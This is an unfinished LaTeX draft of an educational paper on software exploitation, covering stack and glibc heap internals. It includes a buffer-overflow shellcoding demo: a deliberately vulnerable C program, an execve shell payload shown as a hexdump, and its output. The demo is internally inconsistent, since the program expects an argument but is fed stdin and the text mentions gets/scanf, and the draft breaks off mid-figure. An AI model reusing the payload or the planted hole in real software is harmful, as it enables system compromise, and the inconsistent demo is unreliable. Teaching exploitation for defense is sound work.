\documentclass{article}
\usepackage{tikz}
\usetikzlibrary{matrix,shapes,arrows,positioning,decorations.pathreplacing,arrows.meta}
\usepackage{comment}
\usepackage{marginnote}
\usepackage{pgf}
\usepackage{xstring}
\usepackage{listings}
\usepackage{xcolor}


\lstset{
    basicstyle=\ttfamily\small,
    keywordstyle=\color{blue}\ttfamily,
    stringstyle=\color{red}\ttfamily,
    commentstyle=\color{gray}\ttfamily,
    morecomment=[l][\color{magenta}]{\#},
    breaklines=true
}

\begin{document}

\title{Exploatarea Software și Mai Departe: Dezvăluirea Vectorilor de Atac și Contra-Măsurilor în Calculul Modern / Software Exploitation and Beyond: Unveiling Attack Vectors and Countermeasures in Modern Computing}
\maketitle
\section{Abstract}%

Software exploitation continues to pose a significant threat to global
cybersecurity, with vulnerabilities in software systems offering fertile ground
for cyberattacks. The expanding complexity of contemporary software and the
incessantly evolving threat landscape only accentuates the magnitude of the
problem. This paper will discuss the concept of software exploitation,
elaborating on how attackers leverage vulnerability in software systems,
illustrating some common exploitation techniques including buffer overflows,
code injection, heap corruption, among others, while also exploring contemporary
exploit detection and prevention methodologies, from static and dynamic analysis
techniques to machine learning and artificial intelligence-based approaches,
critically evaluating theirs strengths and weaknesses. Finally showcasing the
necessity for a proactive approach towards software security, outlining the
importance of secure coding practices and threat modeling in the early stages of
software development lifecycle. In conclusion this paper aims to offer an
in-depth review of the current landscape of exploitation, detection and
mitigation methodologies and techniques, emphasizing the criticality of these
techniques in fortifying software against threats.

\section{Motivation}%

Ever since my first encounter with the intricacies of reverse engineering and
binary exploitation, I've been completely engrossed in the enigmatic and
thrilling world of low-level computing. Each compiled binary, to me, is an
intricate puzzle waiting to be deciphered. Every line of assembly, every opcode,
and every bit is a brushstroke in an abstract painting that only a trained eye
can understand and appreciate. This appreciation for the art of reverse
engineering started when I participated in my first major CTF (Capture The Flag)
event called X-MAS CTF, which was organized by the Hecarii Tuica si Paunii team.
Having spent countless hours trying to reverse algorithms in binaries, writing
two emulators for custom made platforms in the span of a week and bending
innocuous binaries to do my bidding and execute arbitrary commands revealed to
me how awesome an expansive this field of software security is. This paper will
only cover a small area of this large field and I urge the readers to explore
all of the fields of CyberSec.

\section{Background}%

%   Explain how the Von-Newmann architecture works
%   Give some explaination about the stack and heap
%   Explain how virtualization works
\subsection{What is a Software Exploit?}%

In layman's terms, a Software Exploit is a series of steps taken by an attacker
(be it a human or computer) against another software system in order to trigger
some unintended functionality in that software system. Unintended functionality
could mean being able to execute arbitrary code on the machine running the
software system, getting access to private information/files, escalating their
priviledges to become an administrator or root user and even crashing the system.

\subsection{How does this happen?}%

\subsubsection{Not enough guardrails}%

From the perspective of software exploitation, the continuously increasing
complexity of modern software presents both a challenge and an opportunity. On
one hand, this complexity implies a vast landscape where vulnerabilities can
lurk unnoticed, potentially creating an opening for skilled attackers. System
programming languages, traditionally trusted with the task of creating such
software, provide programmers with great power but very few guardrails.
Languages like C and C++, for instance, allow direct memory manipulation without
inherent safeguards, leading to common vulnerabilities such as buffer overflows
or memory leaks.

\subsubsection{Improper input sanitization}%

In the majority of scenarios the fundamental mistake that the software
developers made is the improper validation of user controlled input. For example
let's take the venerable Buffer Overflow vulnerability, in which an attacker can
send more data that the application has space to process, resulting in Undefined
Behaviour. Depending on the scenario this undefined behaviour can be exploited
to redirect the execution flow of the program into code sent by the attacker (in
the case of a code injection attack on the stack), or could lead to corrupting
some important metadata somewhere else in the program (overwriting a password
variable to one you control, allowing you to login without knowing the real
password). These simple tehcniques have mostly been mitigated in modern systems
by employing passive mitigation techniques such as stack canaries and shadow
stacks (which will be discussed later).

\subsubsection{Dependencies}%

You could be the best programmer in the world, always writing code that stands
up to the highest standars of security but if you use a dependency that is
vulnerable to some exploit your program could still be at a high risk. In the
modern software landscape having a programming language without a package
manager is pretty much a show stopper. This has allowed developers to more
easily share and reuse code, undoubtably leading to increased productivity and
democratization of writing good and useful software, but on the other side the
ease of using someone else's code led us balloon our dependency graph like never
before. This poses a security risk not only from the exploitation standpoint but
also from a supply chain attack standpoint. Only one of the dependencies a
project uses needs to be compromised in order for the whole application to be
compromised.

This has happened multiple times in recent years and this article from LunaSec
showcases really well what happened, but also provides solutions on how to
mitigate these types of attacks in the future.
TODO:Make this a reference
https://www.lunasec.io/docs/blog/node-ipc-protestware/

\subsubsection{Anatomy of the stack on x64 platforms}%

The stack is a fundamental data structure in modern computing systems, and its
use in x64 systems is particularly interesting due to the specific features and
operations enabled by the x64 architecture. The stack is typically organized as
a contiguous region of memory, with two key pointers: the stack base pointer
(RBP in x64) and the stack pointer (RSP in x64). The stack grows `downward' in
memory, meaning that as new items are pushed onto the stack, the stack pointer
decreases in value. A typical function call on an x64 system involves pushing
the return address onto the stack, followed by the function's parameters
\footnote{In the most common calling convention the first few parameters are
passed in registers, not trough the stack}, and finally the local variables.
Upon function return, these elements are popped from the stack in reverse order,
ensuring correct program execution. However, the direct memory access afforded
by the stack also presents a potential vector for exploitation, with techniques
such as buffer overflow attacks targeting this fundamental structure.
Consequently, understanding the stack's functioning in x64 systems is crucial
both for building and for securing software systems.

Variables stored on the stack usually have their size known beforehand are not
really flexible to size requirements, unlike the heap, about which we will talk
in a later chapter.

\begin{figure}[ht]%
  \centering
  
\begin{tikzpicture}[node distance=2cm]
    \tikzstyle{block} = [rectangle, draw, fill=blue!20, text width=5em, text
    centered, minimum height=2em, text width=3cm,
               text depth=0.25cm,
               text height=1em,
               align=center]
    \tikzstyle{line} = [draw, -latex']

    % Define matrix
    \matrix [matrix of nodes,
      nodes=block,
      column sep=0cm,
      row sep=0cm
    ] (stack) {
      {0xFF0060} & {...} \\
      {0xFF0058} & {Return address} \\
      {0xFF0050} & {Stack canary} \\
      {0xFF0048} & {Old RBP} \\
      {0xFF0040} & {foo} \\
      {0xFF0038} & {bar} \\
      {0xFF0030} & {...} \\
    };

    % Draw arrow with two right angles
    % \draw [red,thick,->] (stack-1-1.east) -- +(2cm,0) |- (stack-5-1.east) node[midway, right, black] {Pointer};
    \draw [red,thick,->] ([xshift=3cm]stack-6-2.east) --
    ([xshift=0cm]stack-6-2.east) node[midway, above, black] {Value of rsp};

    \draw [red,thick,->] ([xshift=3cm]stack-4-2.east) --
    ([xshift=0cm]stack-4-2.east) node[midway, above, black] {Value of rbp};

  % \draw [decorate,decoration={brace,amplitude=10pt}]
  %     (stack-1-2.north east) -- (stack-3-2.south east)
  %     node[midway,xshift=1.5cm,] {Group 1};

  \end{tikzpicture}
  \caption{\label{fig:label} Stack frame of a function with local variables
    `foo' and `bar'}%
  \label{fig:stackframe}
\end{figure}

An example state of the stack during the call~\footnote{This example is used for
simplicity. In real world scenarios the variables would have been constant
propagated and the function would have directly returned the result of the
computation} to the function `example`~\ref{code:example_func} is shown in~\ref{fig:stackframe}.

\begin{lstlisting}
  int example()
  {
    int foo = 3;
    int bar = 7;

    return foo + bar;
  }
\end{lstlisting}%
\label{code:example_func}

We can see that the stack frame contains some interesting `variables' that we
haven't defined ourselves:
\begin{itemize}
  \item \textbf{RBP} -~Base pointer. This has been historically used to keep
        track of the start (or base) of our function's stack frame. Functions are usually not allowed to modify values above this address (even though there are some exceptions like copy ellision TODO add copy elision ref).
  \item \textbf{Old RBP} -~Base pointer of the caller.
  \item \textbf{Stack canary} -~This will be explained in the mitigations section TODO add mitigations ref, we will ignore it for this example.
  \item \textbf{Return address} -~For our purposes this is the most important variable. This value is used by the callee to return (hence return address) the execution flow back to the caller when the function finished executing. Another important fact is that this value is stored in the same area as our variables.
\end{itemize}

Now that we have an understanding of how a stack frame looks we can move on to
how stack frames are linked together. The example below shows the state of the
stack while executing the following nested function call chain~\footnote{Here foo is assumed to be a function that does not return} (the
`calls' operation is denoted by $\Rightarrow$):

\begin{equation}
  foo \Rightarrow bar \Rightarrow baz \Rightarrow qux
\end{equation}

This structure is basically a singly linked list of stack frames, with \emph{RBP} as their forward pointer. The function the processor is currently executing is at the head of the list, and the first function called by the program is situated at the tail. Because user variables are mixed with control structures, we can imagine what the outcome would be if we managed to corrupt the \emph{forward} pointer in this linked list.

\begin{figure}[ht]%
  \centering
  
\begin{tikzpicture}[node distance=2cm]
    \tikzstyle{block} = [rectangle, draw, fill=blue!20, text width=12em, text
    centered, minimum height=2em,
               text depth=0.25cm,
               text height=1em,
               align=center]
    \tikzstyle{line} = [draw, -latex']

    % Define matrix
    \matrix [matrix of nodes,
      nodes=block,
      column sep=0cm,
      row sep=0cm
    ] (stack) {
       |[fill=gray!20   ]| {Start of stack}\\
       |[fill=red!20    ]| {vars} \\
       |[fill=green!20  ]| {return address} \\
       |[fill=green!20  ]| {old rbp} \\
       |[fill=green!20  ]| {vars} \\
       |[fill=blue!20   ]| {return address} \\
       |[fill=blue!20   ]| {old rbp} \\
       |[fill=blue!20   ]| {vars} \\
       |[fill=orange!20 ]| {return address} \\
       |[fill=orange!20 ]| {old rbp} \\
       |[fill=orange!20 ]| {vars} \\
       |[fill=gray!20   ]| {End of stack}\\
    };

    Draw arrow with two right angles
    \draw [green,thick,->] (stack-4-1.east) -- +(2cm,0) |- (stack-2-1.north east) node[midway, right, black] {};

    \draw [blue,thick,->] (stack-7-1.east) -- +(2cm,0) |- (stack-5-1.north east) node[midway, right, black] {};

    \draw [orange,thick,->] (stack-10-1.east) -- +(2cm,0) |- (stack-8-1.north east) node[midway, right, black] {};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-2-1.north west) -- (stack-2-1.south west)
    node[midway,xshift=-1.5cm,] { \emph{foo}'s frame};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-3-1.north west) -- (stack-5-1.south west)
    node[midway,xshift=-1.5cm,] { \emph{bar}'s frame};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-6-1.north west) -- (stack-8-1.south west)
    node[midway,xshift=-1.5cm,] { \emph{baz}'s frame};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-9-1.north west) -- (stack-11-1.south west)
    node[midway,xshift=-1.5cm,] { \emph{qux}'s frame};

  \end{tikzpicture}
  \caption{\label{fig:label} Stack state when executing 3 nested calls}%
  \label{fig:stackframe}
\end{figure}

\subsubsection{Anatomy of the Heap}
Here we will take a small departure
from the world of semi-standardized calling conventions and venture in the
implementation defined lands of \emph{malloc} and \emph{free}. Ever since it's
inception, this api has been the bane of every C programmer's existence when
they started out programming. We will now examine in depth this API.\@

\subsubsection{malloc}
TODO add ref to standards
The malloc function is a part of the C Standard Library, as specified by both
the ANSI C and ISO C standards. It is used for dynamic memory allocation in C
programs, allowing the programmer to request a specific amount of memory space
at runtime. The malloc function, defined in the stdlib.h header file, takes a
single argument: the number of bytes to be allocated, and it returns a pointer
to the first byte of the allocated space.

The behavior of malloc is strictly defined by the C standard. Upon successful
execution, malloc provides a block of memory that is suitably aligned for any
kind of variable. The allocated memory is uninitialized, meaning it contains
indeterminate values. If the function fails to allocate the requested memory,
perhaps due to insufficient memory space, it returns a NULL pointer.
Importantly, the standard guarantees that malloc will not modify the content of
the allocated memory, which differentiates it from similar functions like
calloc, which sets the allocated memory to zero. The pointer returned by malloc
is always a unique address that is not being used elsewhere in the program,
until it is freed by the \emph{free} function.

\subsubsection{free}
Thre \emph{free} function pretty much does the inverse of what malloc does. It
marks the memory allocation starting at the address given as a parameter as free
for use by the allocator. The algorithm behind the dynamic memory allocation API
is left to be implementation defined. We will dig deeper into the
allocator used by LibC on the GNU/Linux operating system.


\subsection{Allocating memory in Linux}
The allocator used by the C standard library on linux is a variation of
\emph{ptmalloc}. There are two main ways to allocate memory using this
allocator. The allocator automatically chooses which technique to use based on
the size of the requested allocation\footnote{We will be referring to
allocations with a size $<$ {M\_MMAP\_THRESHOLD} as \emph{small} and to
allocations larger than that as \emph{big}}\footnote{{M\_MMAP\_THRESHOLD} is set
to 127k bytes by default}:
\begin{itemize}
  \item \emph{small}~-~served by the allocation algorithm
  \item \emph{large}~-~served by a call to \emph{mmap}
\end{itemize}

Large allocations bypass the allocation algorithm entirely (and will not be the
focus for our exploitation scenarios), unlike small allocations which pass
trough a pretty complex set of steps before the memory is actually given to us.
We will now discuss this algorithm in detail, pointing out areas of interest
that will help us develop exploits and mitigations later.

\subsection{GLibc allocation algorithm}
\subsubsection{Background}
\begin{itemize}
  \item \emph{Arena}~-~An arena is a structure accessible by one or multiple
threads, holding references to one or several heaps. It also includes linked
lists of unallocated `chunks' within these heaps. Threads associated with a
specific arena draw their memory from the free lists of that arena.
  \item \emph{Heap}~-~A heap is a sequential memory region divided into smaller
units, known as chunks, for allocation purposes. Each heap is uniquely
associated with a single arena.
  \item \emph{Chunk}~-~A chunk represents a small, allocatable memory section.
This memory can be allocated (controlled by the application), freed (controlled
by glibc), or merged with nearby chunks to create larger sections. Importantly,
a chunk essentially serves as a shell encompassing the block of memory delivered
to the application. Every chunk is part of one heap and linked to a single
arena.
  \item \emph{Memory}~-~Memory refers to a segment of the application's address
space, generally supported by RAM or swap
\end{itemize}

\subsubsection{Allocation}
The operation of the \texttt{malloc} function can be succinctly described as
follows:

\begin{enumerate}
\item In case a chunk with an exact match is available in the \texttt{tcache},
it is returned. Note that no attempts are made to utilize an existing chunk from
a bin of a larger size.

\item For sufficiently large requests, memory is directly acquired from the
operating system using the \texttt{mmap()} function. It is noteworthy that the
threshold for triggering \texttt{mmap()} is dynamic, subject to the
\texttt{M\_MMAP\_THRESHOLD} parameter (refer to the \texttt{mallopt()}
documentation), and there may exist a constraint on the number of mappings
permissible concurrently.

\item If an adequate chunk exists in the appropriate \texttt{fastbin}, it is
used. If additional chunks are available, the \texttt{tcache} is prefilled.

\item In the scenario where the appropriate \texttt{smallbin} contains a chunk,
it is used, with the possibility of \texttt{tcache} being prefilled.

\item For "large" requests, the function executes a routine to transfer all
elements in the \texttt{fastbins} to the unsorted bin while coalescing them.

\item The function then starts retrieving chunks from the unsorted list,
subsequently placing them into small/large bins, again coalescing in the
process. The function uses a chunk if it is of the required size. This is the
only point in the code where chunks are inserted into small/large bins.

\item In the case of "large" requests, the function searches the appropriate
large bin and subsequently larger bins until a sufficiently large chunk is
found.

\item If chunks remain in the \texttt{fastbins} (which could occur for "small"
requests), these are consolidated, and the previous two steps are repeated.

\item Part of the "top" chunk is split off, with a possibility of enlarging the
"top" chunk prior to this.

\item For requests requiring over-aligned \texttt{malloc}, such as
\texttt{valloc}, \texttt{pvalloc}, or \texttt{memalign}, an overly-large chunk
is located using the above \texttt{malloc} algorithm. This chunk is then divided
into two or more chunks such that the majority of the chunk is suitably aligned
and returned to the caller. The excess portions before and after this chunk are
returned to the unsorted list for future usage.
\end{enumerate}

\subsubsection{Free} Generally, the act of "freeing" memory does not entail
returning it to the operating system for alternative applications' use. A
\texttt{free()} call designates a memory chunk as "available for reuse" by the
application; from the perspective of the operating system, the memory still
"belongs" to the application. However, should the top chunk in a heap -- the
section adjacent to unmapped memory -- grow significantly, some of the memory
could potentially be unmapped and returned to the operating system.

To summarize, the \texttt{free()} function operates as follows:

\begin{enumerate}
\item If space is available in the \texttt{tcache}, the chunk is stored there,
and the function returns.

\item If the chunk's size is sufficiently small, it is placed in the
corresponding \texttt{fastbin}.

\item If the chunk was allocated using \texttt{mmap()}, it is deallocated with
\texttt{munmap()}.

\item The function checks whether the chunk is adjacent to another free chunk
and coalesces the two if possible.

\item The chunk is positioned in the unsorted list, except if it has become the
"top" chunk.

\item For sufficiently large chunks, any \texttt{fastbins} are coalesced, and
the function checks if the top chunk is large enough to return some memory to
the system. It's worth noting that this step may be deferred due to performance
considerations and could occur during a \texttt{malloc} or another call.
\end{enumerate}

\subsubsection{Detecting heap corruption}
The \texttt{malloc} subsystem implements a series of measures aimed at detecting
heap corruption throughout its codebase. Certain checks can consistently
identify errors (for instance, passing an insufficiently aligned pointer to
\texttt{free()}). However, the majority of these checks are heuristic and may
not identify contrived, false chunks that mimic legitimate ones (for instance,
checks for forward/backward linking of chunks). Consequently, heap corruption
may persist undetected for an extended duration, or might not be reported
altogether.

Common forms of corruption are managed via calls to \texttt{malloc\_printerr};
these checks are invariably included in the code. Additional checks utilize
\texttt{assert} and can thus be disabled by building \texttt{glibc} with the
\texttt{-DNDEBUG} flag. In the current \texttt{glibc} version, both types of
checks terminate the process via a call to \texttt{\_\_libc\_message}, which
ultimately invokes \texttt{abort}. Note that although very old versions of
\texttt{glibc} offered the ability to continue execution in the presence of heap
corruption, this feature has since been discontinued.

In the following chapter we will be exploring ways to the bypass corruption checks
in order to achieve arbitrary code execution.

% ASDASD pe ast il punem la case studies
% The pervasive nature and potential harm of software exploits have catalyzed the
% establishment of critical global standards for vulnerability tracking and
% response. One such prominent standard is the Common Vulnerabilities and
% Exposures (CVE) system. Launched in 1999 by the MITRE Corporation, a
% not-for-profit organization, the CVE provides a standardized method for
% identifying and cataloging known vulnerabilities. Each identified vulnerability
% is assigned a unique CVE Identifier (CVE-ID), allowing cybersecurity experts
% worldwide to share information using a common language. By providing a universal
% reference, the CVE system streamlines the process of discussing, researching,
% and resolving known exploits, and assists in the broader efforts of
% vulnerability management and mitigation. The creation and widespread adoption of
% the CVE standard underscore the recognition within the global tech community of
% the critical need for coordinated, standardized responses to the persistent
% threat of software exploitation.

% In contrast, this complexity also inspires
% and necessitates the evolution of more secure programming practices and
% languages. One such notable example is Rust, a systems programming language that
% promises memory safety without sacrificing performance. Rust's borrowing
% mechanism provides a robust guardrail, enforcing access controls to memory at
% compile-time, thus inherently mitigating a class of exploits. However, not all
% software can or will be rewritten in Rust or similar languages, and the majority
% of systems today still run on code written in languages with fewer safety
% features. As such, the balance between software complexity, performance, and
% security continues to be a critical and fascinating aspect of the software
% exploitation landscape.

\section{Software Exploitation Techniques}%
Software exploitation has been a prevalent issue almost as early as the
inception of software itself, underpinning the need for constant vigilance and
innovation in the field of software security. Early instances of software
exploitation can be traced back to the late 1980s with the advent of the Morris
Worm. Considered as one of the first computer worms distributed via the
Internet, the Morris Worm infected approximately 6,000 computers, causing
significant slowdowns or even rendering them unusable
\cite{spafford1989internet}. Since then, various forms of software
vulnerabilities have been exploited, including buffer overflows, injection
attacks, and privilege escalation, leading to massive data breaches, disruptions
in services, and significant financial losses \cite{owasp2017}. The history of
software exploitation elucidates the perpetual arms race between attackers
seeking to exploit vulnerabilities and defenders striving to secure systems, a
dynamic that continues to define the software security landscape today.

\subsection{Early stage}
\subsubsection{Shellcoding}
\begin{comment}
  shellcoding
  reference smashing the stack for fun and profit
\end{comment}
One of the earliest vulnerability that was exploited was the venerable bufffer
overflow. A Buffer overflow represents a crucial class of software
vulnerabilities that can serve as a launching pad for a myriad of complex
exploits, one of which includes shellcode injection. This vulnerability arises
when more data is written to a buffer than it can hold, thereby allowing an
attacker to overwrite adjacent memory locations \cite{seacord2013}. If exploited
judiciously, this can lead to the alteration of program's control flow, enabling
an attacker to execute arbitrary code. One manifestation of this is shellcoding,
where an attacker injects a sequence of bytes, often encoding command-line shell
instructions, into the memory and manipulates the program's execution flow to
execute this code \cite{one1996smashing}. This capability to execute arbitrary
code gives the attacker full control over the compromised system, thereby
illustrating the severity and implications of buffer overflow vulnerabilities.

Below \ref{lst:bof} is an example of a vulnerable program.

\begin{minipage}{\linewidth}
\begin{lstlisting}[caption={Buffer overflow shellcoding example}
      ,label={lst:bof}
      ,language=C]
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

/* This function is a gadget typically
 * found through Return Oriented Programming (ROP)
 * in a larger binary, and it's crucial
 * for changing control flow.
 * It serves to demonstrate the general
 * concept in this simplified context.
 *
 * In a real-life scenario,
 * it would be necessary to find this gadget
 * or pivot the stack in a different manner.
 */
extern void __attribute__((naked)) helper_gadget() {
        __asm(".intel_syntax noprefix\n"
              "jmp rsp\n"
              ".att_syntax\n");
}

/* Example of a vulnerable function in which
 * the size of the concatenated strings is not
 * checked to be less than the size of the
 * buffer in which they are concatenated.
 *
 * This would most likely never cause issues
 * because names are almost never this long, but
 * it is easy for an attacker to exploit this.
 */
void say_hi(char* name) {
        char local_buffer[0x100];

        strcat(local_buffer, "Hi ");
        strcat(local_buffer, name);
        strcat(local_buffer, "!");

        puts(local_buffer);

        return;
}

int main(int argc, char** argv) {
        if (argc != 2) {
                fprintf(stderr, "usage: say_hi <name>\n");
                return 1;
        }

        say_hi(argv[1]);

        return 0;
}
\end{lstlisting}
\end{minipage}

Running the program with my name gives an expected output:
\begin{lstlisting}[caption={Non-malicious input}
      ,label={lst:bof_valid}
      ,language=bash]
$ ./say_hi Liviu
Hi Liviu!
\end{lstlisting}

But running the program with the following malicious crafted input we get
a vastly different result:

\begin{lstlisting}[caption={Malicious input}
      ,label={lst:bof_malicious}
      ,language=bash]
# The `cat` command is used just to keep
# the stdin of the `say_hi` program open
$ cat shellcode_malicious_input.bin - | ./say_hi
aaaa
Hi !
ls
Makefile  say_hi  shellcode_malicious_input.bin
\end{lstlisting}

\begin{lstlisting}[caption={Hexdump of malicious input}
      ,label={lst:bof_malicous_hex}
      ,language=bash]
0000000 0000 0000 0000 0000 0000 0000 0000 0000
*
0000100 0000 0000 0000 0000 115a 0040 0000 0000
0000110 9090 9090 9090 9090 9090 9090 9090 9090
*
0000310 8148 80ec 0000 6a00 4868 2fb8 6962 2f6e
0000320 2f2f 5073 8948 68e7 6972 0101 3481 0124
0000330 0101 3101 56f6 086a 485e e601 4856 e689
0000340 d231 3b6a 0f58 0005
0000347
\end{lstlisting}
Our simple program seems to be behaving like a system shell. We will now analyse
what happened during the execution of our program. Here~\ref{lst:bof_malicous_hex}
is a hexdump of the input. Let's break it down:
\begin{enumerate}
  \item The first 0x100 bytes of the payload are just null bytes\footnote{We are
  allowed to do this because \emph{gets} does not stop reading the string when it
  encounters a \emph{NULL} (0) byte, even though strings in C are almost always
  NULL terminated.~\emph{scanf} will only return when it encounters an error or
  reads a line ending}. We do this in order to fill up the buffer that the
  application uses. These values could realistically be anything (besides line
  endings).
  \item As shown in\ref{veziacistackuala} we now need to overflow the
  \emph{base pointer}. In this exploitation scenario this can also be any value,
  but it can allow us to pivot the stack into some memory address we know in some cases.
  \item Now we overwrite the \emph{return address} to point to the address of the \emph{jump rsp} instruction.
  \item After the return address we place a \emph{nop sled}. The purpose of the nop
  sled is to allow us some leeway\footnote{When jumping into shellcode written to the stack the addresses the stack register and instruction pointer point to are close together. Stack manipulations (such as \emph{push}es and \emph{pop}s) can overwrite the shellcode, causing it to misbehave or making the processor execute illegal instructions.} when crafting the actual malicious payload.
  \item Finally we place the instructions we want to execute. The payload exemplified\ref{vezipayload} here uses the \emph{execve} syscall to replace the current running
  process with the \emph{sh} shell process.
\end{enumerate}

This traditional exploitation technique of buffer overflow into shellcode has
been effectively mitigated by a plethora of defensive mechanisms that we will
discuss in subsequent chapters, such as Address Space Layout Randomization
(ASLR), Data Execution Prevention (DEP), Stack Canaries, and Control-Flow
Integrity (CFI). Despite these advancements, the described exploitation
scenarios retain relevance in contexts where these protection measures are
absent or cannot be implemented. For example, systems lacking a Memory
Management Unit (MMU), many embedded systems, and certain router configurations
may not have these defenses, leaving them susceptible to such attacks. Thus,
understanding these exploits remains critical in a comprehensive approach to
system security.

\begin{figure}[ht]%
  \centering
  
\begin{tikzpicture}[node distance=2cm]
    \tikzstyle{block} = [rectangle, draw, fill=blue!20, text width=5em, text
    centered, minimum height=2em, text width=5cm,
               text depth=0.25cm,
               text height=1em,
               align=center]
    \tikzstyle{line} = [draw, -latex']

    % Define matrix
    \matrix [matrix of nodes,
      nodes=block,
      column sep=0cm,
      row sep=0cm
    ] (stack) {
      {...} \\
      |[fill=red!20, minimum height=5em]|
      {return address (to \emph{libc\_start\_call\_main})} \\
      {\emph{rbp} of \emph{libc\_start\_call\_main}} \\
      |[fill=red!20]|
      {return address (to \emph{main})} \\
      {\emph{RBP} of \emph{main}} \\
      |[minimum height=12em]|
      {\emph{local\_buffer}} \\
    };

    % Draw arrow with two right angles
    % \draw [red,thick,->] (stack-1-1.east) -- +(2cm,0) |- (stack-5-1.east) node[midway, right, black] {Pointer};
    \draw [red,thick,->] ([xshift=3cm]stack-6-1.south east) --
    ([xshift=0cm]stack-6-1.south east) node[midway, above, black] {rsp};

    \draw [red,thick,->] ([xshift=3cm]stack-4-1.east) --
    ([xshift=0cm]stack-4-1.east) node[midway, above, black] {rbp};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-6-1.north west) -- (stack-6-1.south west)
    node[midway,xshift=-1.5cm,] {0x100 bytes};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-5-1.north west) -- (stack-5-1.south west)
    node[midway,xshift=-1.5cm,] {0x8 bytes};

    \draw [decorate,decoration={brace,amplitude=10pt,mirror}]
    (stack-4-1.north west) -- (stack-4-1.south west)
    node[midway,xshift=-1.5cm,] {0x8 bytes};

